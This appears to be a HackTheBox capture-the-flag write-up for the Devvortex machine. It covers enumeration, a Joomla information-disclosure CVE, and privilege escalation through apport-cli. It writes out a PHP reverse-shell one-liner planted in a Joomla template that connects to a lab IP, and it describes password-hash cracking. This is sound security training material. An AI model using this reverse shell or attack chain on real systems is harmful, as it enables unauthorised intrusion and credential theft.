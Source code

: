 +++
title = 'HTB Devvortex Writeup'
date = 2023-12-18T12:00:23-05:00
draft = false
+++

Here's a seasonal HackTheBox machine from last month: Devvortex. Let's get started.
## Scanning and Enumeration

As always, I start by adding the IP address to my `/etc/hosts` file and running an nmap scan

![/etc/hosts file](/images/devvortex/etc_hosts.png)
![nmap scan](/images/devvortex/nmap.png)

So we've got two open ports, 22 and 80. Visiting the webserver on port 80 gives me this homepage

![devvortex homepage](/images/devvortex/devvortex_htb.png)

Looking around the website didn't seem like it would lead anywhere, so I continued enumeration by searching for directories and subdomains using gobuster

![gobuster directory search](/images/devvortex/gobuster_dir.png)

The directories that gobuster found weren't very useful, but it did find an interesting subdomain

![subdomain](/images/devvortex/gobuster_dns.png)

After adding this subdomain to the hosts file, we can browse it

![etc hosts 2](/images/devvortex/etc_hosts2.png)

![subdomain page](/images/devvortex/subdomain_homepage.png)

I ran another gobuster directory search, this time on the subdomain

![gobuster dir subdomain](/images/devvortex/gobuster_dir_subdomain.png)

Visiting the /administrator/ endpoint gave me a login page hosted with Joomla

![joomla login](/images/devvortex/administrator.png)

## Initial Foothold

We can use joomscan to find out more about the Joomla installation

![joomscan](/images/devvortex/joomscan.png)

A quick google search for vulnerabilities in Joomla 4.2.6 led me to a CVE

![cve](/images/devvortex/cve.png)

I also found exploit code for this vulnerability [here](https://github.com/Acceis/exploit-CVE-2023-23752). No need to change anything in the code, just provide the URL as a command line argument

![ruby exploit](/images/devvortex/ruby.png)

This gives us credentials that we can use to login to the Joomla dashboard.

![joomla dashboard](/images/devvortex/joomla_logged_in.png)

By clicking *System* &rarr; *Administrator Templates* I found the template that the website is using. I've run into Joomla templates before, and I knew I was able to get a reverse shell on the system using a template. First, I selected the template and viewed the **index.php** file. Then, I added a php reverse shell one-liner to the template

`exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'");`

![rev shell](/images/devvortex/rev_shell.png)

Before saving the changes, I started a netcat listener so it could catch the reverse shell. I then ran a few commands to create a more stable shell

![netcat](/images/devvortex/stable_shell.png)

I found the user flag, but wasn't able to read the file

![found user flag](/images/devvortex/find_user_flag.png)

From here, I got stuck for a while until I remembered the credentials I used to login to the Joomla dashboard. I checked to see if I could use them to access MySQL

![mysql](/images/devvortex/mysql.png)

It worked! Let's see what we can find in the database

![databases](/images/devvortex/show_databases.png)

There are a lot of tables in the joomla database, but one looks interesting

![tables](/images/devvortex/tables.png)
![users](/images/devvortex/users.png)

We now have Logan's password hash, and it appears to be hashed with blowfish. We can crack this using hashcat

![hash](/images/devvortex/hash.png)
![cracked](/images/devvortex/cracked.png)

Now we can access the user flag

![user flag](/images/devvortex/user_flag.png)

## Privilege Escalation

Let's see what sudo permissions Logan has

![sudo](/images/devvortex/sudo.png)

A quick google search for privilege escalation using `apport-cli` gives us a CVE from earlier this year

![cve2](/images/devvortex/cve2.png)

The CVE linked to [this](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb) page, which provides some useful information on how to exploit this vulnerability to get a root shell. Basically, we need to create a crash report, then view it, which opens the report with `less`. From here, it's simple to get a shell.

![generate report](/images/devvortex/report2.png)
![view report](/images/devvortex/report3.png)
![report](/images/devvortex/report.png)
![root](/images/devvortex/root.png)

&nbsp;  
Thanks for reading,

Dakota Vickers